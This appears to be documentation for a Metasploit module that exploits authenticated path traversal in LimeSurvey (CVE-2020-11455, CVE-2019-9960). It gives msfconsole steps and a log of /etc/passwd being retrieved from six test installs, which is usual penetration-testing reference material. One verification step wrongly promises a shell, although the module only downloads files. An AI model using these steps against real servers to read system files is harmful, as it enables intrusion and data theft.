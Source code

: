 ## Vulnerable Application

This module exploits an authenticated path traversal vulnerability found in LimeSurvey versions between 4.0 and 4.1.11 with
CVE-2020-11455 or <= 3.15.9 with CVE-2019-9960, inclusive.

In CVE-2020-11455 the `getZipFile` function within the `filemanager` functionality allows for arbitrary file download. The file retrieved
may be deleted after viewing, however this was not confirmed in testing.

In CVE-2019-9960 the `szip` function within the `downloadZip` functionality allows for arbitrary file download.

This module has been verified against the following versions:

  * 4.1.11-200316
  * 3.15.0-181008
  * 3.9.0-180604
  * 3.6.0-180328
  * 3.0.0-171222
  * 2.70.0-170921

### Install

This application is straight forward to install.  An excellent writeup is available on
[howtoforge.com](https://www.howtoforge.com/tutorial/how-to-install-limesurvey-on-ubuntu-1804/)

Versions can be downloaded from [github](https://github.com/LimeSurvey/LimeSurvey/releases).

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use auxiliary/scanner/http/limesurvey_zip_traversals```
  4. Do: ```set file [file]```
  5. Do: ```set rhosts [ip]```
  6. Do: ```run```
  7. You should get a shell.

## Options

### FILE

The file to attempt to retrieve

## Scenarios

### LimeSurvey 4.1.11, 3.15.0, 3.9.0, 3.6.0, 3.0.0, and 2.70.0 on Ubuntu 18.04

```
[*] Processing lime41.rb for ERB directives.
resource (lime41.rb)> use auxiliary/scanner/http/limesurvey_zip_traversals
resource (lime41.rb)> set rhosts 2.2.2.2
rhosts => 2.2.2.2
resource (lime41.rb)> set verbose true
verbose => true
resource (lime41.rb)> set uri /LimeSurvey-4.1.11-200316/
uri => /LimeSurvey-4.1.11-200316/
resource (lime41.rb)> run
[*] CSRF: YII_CSRF_TOKEN => SzF-eUl4RW1lU0h-aFZxWmNwbGZOREJrYUduZzI1WTaGH7eqrOmgcse5liKfPNZ8qqKkvenm5Fu6oxTSyVWDrQ==
[+] Login Successful
[*] Version Detected: 4.1.11
[*] Attempting to retrieve file
[+] File stored to: /home/h00die/.msf4/loot/20200408141207_default_2.2.2.2__164991.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
resource (lime41.rb)> set uri /LimeSurvey-3.15.0-181008/
uri => /LimeSurvey-3.15.0-181008/
resource (lime41.rb)> run
[*] CSRF: YII_CSRF_TOKEN => SDNyc21VYXJONmIwbjFkOENmUzEyS1NMX3lPQ0VYRTJyfE0iGABAxOsuZhxGdZd59W3dNCVx2D6JABRxmu6dgw==
[+] Login Successful
[*] Version Detected: 3.15.0
[*] Attempting to retrieve file
[+] File stored to: /home/h00die/.msf4/loot/20200408141207_default_2.2.2.2__530709.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
resource (lime41.rb)> set uri /LimeSurvey-3.9.0-180604/
uri => /LimeSurvey-3.9.0-180604/
resource (lime41.rb)> run
[*] CSRF: YII_CSRF_TOKEN => QldPa0lZM0o0cUV-STU4NWVoYVlDdHNtYmhmVVl6NW39a1wvfep0Ccsuz_gx9V1AnMjtADnprALM7qwvxUz3Wg==
[+] Login Successful
[*] Version Detected: 3.9.0
[*] Attempting to retrieve file
[+] File stored to: /home/h00die/.msf4/loot/20200408141208_default_2.2.2.2__407491.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
resource (lime41.rb)> set uri /LimeSurvey-3.6.0-180328/
uri => /LimeSurvey-3.6.0-180328/
resource (lime41.rb)> run
[*] CSRF: YII_CSRF_TOKEN => SHJzSk81ak5rdWdONTJWV0VLQTlHcjRKeGNIaFlYREqfcU-BuMlPRimIHJipKDsrCF3i7j29J4bNFwxsYGD42A==
[+] Login Successful
[*] Version Detected: 3.6.0
[*] Attempting to retrieve file
[+] File stored to: /home/h00die/.msf4/loot/20200408141208_default_2.2.2.2__228237.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
resource (lime41.rb)> set uri /LimeSurvey-3.0.0-171222/
uri => /LimeSurvey-3.0.0-171222/
resource (lime41.rb)> run
[*] CSRF: YII_CSRF_TOKEN => T1VkbDlhYU9IbkZHel9wd0JoVVl5RTUxQ2h2Mk9yN0-AXAtaTDCOMX8gWru7EmBHPBumgY0FG0vAFLwCwyeeuA==
[+] Login Successful
[*] Version Detected: 3.0.0
[*] Attempting to retrieve file
[+] File stored to: /home/h00die/.msf4/loot/20200408141209_default_2.2.2.2__611969.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
resource (lime41.rb)> set uri /LimeSurvey-2.70.0-170921/
uri => /LimeSurvey-2.70.0-170921/
resource (lime41.rb)> run
[*] CSRF: YII_CSRF_TOKEN => elhvTzJaWGlJWU10WnBFajlTYmN5a1VHY1M0bDNJd1C2okYXL__0in7KMlmwY6_Iuk8sI7H7s2zQPZ5NiWW_Xg==
[+] Login Successful
[*] Version Detected: 2.70.0
[*] Attempting to retrieve file
[+] File stored to: /home/h00die/.msf4/loot/20200408141209_default_2.2.2.2__149900.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
resource (lime41.rb)> md5sum ~/.msf4/loot/*
[*] exec: md5sum ~/.msf4/loot/*

3cf5f3492b7c77a77f74124bb4ccb528  /home/h00die/.msf4/loot/20200408141207_default_2.2.2.2__164991.txt
3cf5f3492b7c77a77f74124bb4ccb528  /home/h00die/.msf4/loot/20200408141207_default_2.2.2.2__530709.txt
3cf5f3492b7c77a77f74124bb4ccb528  /home/h00die/.msf4/loot/20200408141208_default_2.2.2.2__228237.txt
3cf5f3492b7c77a77f74124bb4ccb528  /home/h00die/.msf4/loot/20200408141208_default_2.2.2.2__407491.txt
3cf5f3492b7c77a77f74124bb4ccb528  /home/h00die/.msf4/loot/20200408141209_default_2.2.2.2__149900.txt
3cf5f3492b7c77a77f74124bb4ccb528  /home/h00die/.msf4/loot/20200408141209_default_2.2.2.2__611969.txt
msf5 auxiliary(scanner/http/limesurvey_zip_traversals) > cat /home/h00die/.msf4/loot/20200408141207_default_2.2.2.2__164991.txt
[*] exec: cat /home/h00die/.msf4/loot/20200408141207_default_2.2.2.2__164991.txt

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
...snip...
mysql:x:111:113:MySQL Server,,,:/nonexistent:/bin/false
```
